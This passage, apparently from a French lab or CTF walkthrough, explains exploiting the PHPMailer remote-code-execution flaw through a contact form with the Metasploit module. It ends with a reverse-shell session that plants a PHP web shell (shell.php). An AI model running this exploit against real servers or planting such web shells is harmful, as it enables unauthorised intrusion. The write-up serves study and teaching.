 On identifie facilement *PHPMailer* via la page d'index qui liste ses codes d'exemples. Ce logiciel est connu pour être vulnérable à une faille critique d'exécution de code [et plusieurs exploits existent sur exploit-db](https://www.exploit-db.com/search?q=phpmailer).  

Le plus important à souligner ici c'est que si cette librairie PHP est faillible ce n'est pas directement via un de ses codes d'exemples mais via les scripts qui peuvent l'employer.  

Ici la page *contact.php* dispose d'un formulaire permettant de saisir nom, email et message ce qui laisse très fortement supposer que *PHPMailer* est utilisé en fond.  

Si je réduis le code HTML pour ne garder que le nécessaire alors le formulaire ressemble à ceci :  

```html
<form class="form-horizontal" action="" method="POST" enctype="multipart/form-data">
		<input name="name" type="text" class="form-control" id="inputName" placeholder="Name">
		<input name="email" type="email" class="form-control" id="inputEmail" placeholder="Email">
		<textarea name="message" class="form-control" rows="3" id="textArea"></textarea>
		<button type="submit" class="btn btn-primary"><i class="fa fa-paper-plane-o" aria-hidden="true"></i> Submit</button>
		<input type="hidden" name="action" value="submit">
</form>
```

Et justement quand on regarde les différents exploits ils utilisent bien ces champs. Les données sont envoyées en multipart (comme s'il s'agissait d'un upload de fichier) et les champs *name* et *message* peuvent être utilisés pour passer du code PHP.  

La vulnérabilité est expliquée dans [cet advisory de Dawid Golunski](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html).  

En background *PHPMailer* appelle la commande Linux *sendmail*. La commande complète est formée via les données passées par *PHPMailer*. Ça pourrait se voir comme de l'échappement de commande sauf que ce n'est pas le cas ici. A la place l'exploit se sert de l'option *-X* de *sendmail* permettant de spécifier le path d'un fichier de log où seront écrites les données relatives à l'envoi du mail.  

Parmi ces données se trouvent l'entrée *name* et le *message* d'où l'utilisation de ces champs.  

En conclusion l'exploit ne fait qu'écrire du code PHP à l'emplacement que l'on souhaite mais rien n'est exécuté directement. Il faut appeler la backdoor générée pour provoquer le payload final.  

Après avoir essuyé quelques échecs avec certains exploits j'ai basculé [sur celui de Metasploit](https://www.exploit-db.com/exploits/41688) et là ça a correctement fonctionné (on peut dire ce qu'on veut mais les exploits sont de qualité).  

On peut activer l'option *HttpTrace* ou mettre en écoute l'interface réseau pour mieux comprendre l'exploitation. Ce que fait *Metasploit* c'est envoyer la première requête qui déclenche la commande *sendmail*. Celle-ci est exécuté de façon synchrone du coup la requête n'a pas de réponse avant plusieurs minutes.  

Pendant ce temps *Metasploit* envoie des requêtes régulières pour demander le fichier PHP qui devrait être déposé sur le serveur. C'est ce script qui contient le payload qui nous donnera par exemple le reverse shell demandé. Ainsi après un moment :  

```plain
$ ncat -l -p 4444 -v
Ncat: Version 7.92 ( https://nmap.org/ncat ) 
Ncat: Listening on :::4444 
Ncat: Listening on 0.0.0.0:4444 
Ncat: Connection from 192.168.101.132. 
Ncat: Connection from 192.168.101.132:33360. 
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
pwd 
/www 
echo '<?php system($_GET["cmd"]); ?>' > shell.php 
```
